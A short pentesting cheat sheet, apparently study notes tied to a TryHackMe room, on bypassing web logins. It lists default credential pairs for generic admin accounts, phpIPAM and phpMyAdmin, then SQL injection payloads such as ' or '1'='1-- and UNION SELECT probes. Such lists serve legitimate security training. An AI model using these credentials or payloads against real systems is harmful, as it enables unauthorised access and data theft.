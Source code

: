 ```yaml
---
title: Web Login Bypass
description: 
tags:
    - SQL Injection
    - Web
refs:
    - https://tryhackme.com/room/nosqlinjectiontutorial
date: 2023-08-31
draft: false
---
```


## Common Default Credentials

Check if the website has not changed credential from the default username/password.

```sh
admin:admin
admin:password
admin:password1
admin:password123
admin:passw0rd
admin:(empty)
admin:12345

administrator:password
administrator:password1
administrator:password123
administrator:passw0rd
administrator:(empty)
administrator:12345

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br /><br />

## SQL Injections

```txt
' or '1'='1
' or '1'='1--
or true--
' or true--

UNION SELECT null--
' UNION SELECT null--
' UNION SELECT 1,2--
```
